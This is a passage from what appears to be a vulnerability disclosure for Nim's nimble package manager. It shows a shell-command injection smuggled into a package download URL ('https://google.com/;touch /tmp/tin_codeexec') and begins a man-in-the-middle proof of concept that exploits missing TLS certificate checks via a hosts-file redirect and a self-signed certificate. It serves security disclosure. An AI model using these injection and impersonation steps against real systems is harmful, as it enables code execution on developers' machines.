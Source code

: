 2) update package list and install `filesize` (may affect any command that attempts to download the git repository for that package)

```
⇒  nimble refresh --debug 
Downloading Official package list
     Trying https://github.com/nim-lang/packages/raw/master/packages.json
    Success Package list downloaded.
   Warning: Not removing temporary path because of debug verbosity: /var/folders/ht/x3vxy7p11q3fcr7wzf46dgsc0000gn/T/nimble_530
```

install `filesize` to trigger the vulnerable codepath:

```
⇒  nimble install filesize
Downloading https://google.com/;touch /tmp/tin_codeexec using git
       Tip: 1 messages have been suppressed, use --verbose to show them.
     Error: Specified directory (/var/folders/ht/x3vxy7p11q3fcr7wzf46dgsc0000gn/T/nimble_585/googlecom_touchtmptincodeexec) does not contain a .nimble file.
```

command was executed:

```
⇒  ls /tmp/tin_codeexec 
/tmp/tin_codeexec
```

There's probably other ways this may be insecure as well (path traversal, etc..)

## Proof of Concept

We are going to exploit [nimble](https://github.com/nim-lang/nimble) the official nim package manager for this Proof of Concept demonstrating that `httpclient` fails to properly verify the tls peer certificate silently allowing anyone to impersonate any host.

Nimble fetches packages from github. This is using the nim-lang stdlib `httpclient` ([here](https://github.com/nim-lang/nimble/blob/6e5761b1923ce213c2b956900591d7a6f50cde84/src/nimblepkg/packageinfo.nim#L178)) that fails to properly verify certificates when establishing secure transports. By default, nimble requests the package list from  `https://github.com/nim-lang/packages/raw/master/packages.json`. Intercepting a call to `packages.json` may allow an attacker to define what binaries are installed and may also directly lead to code execution on the machine that is executing nimble. 


1. Change your `/etc/hosts` file to redirect github.com to localhost

```
⇒  sudo cat /private/etc/hosts
127.0.0.1 github.com
```

2. Create a self-signed certificate for `CN=github.com`

```
⇒  openssl req -x509 -sha256 -nodes -days 365 -newkey rsa:2048 -keyout privateKey.key -out certificate.crt
```
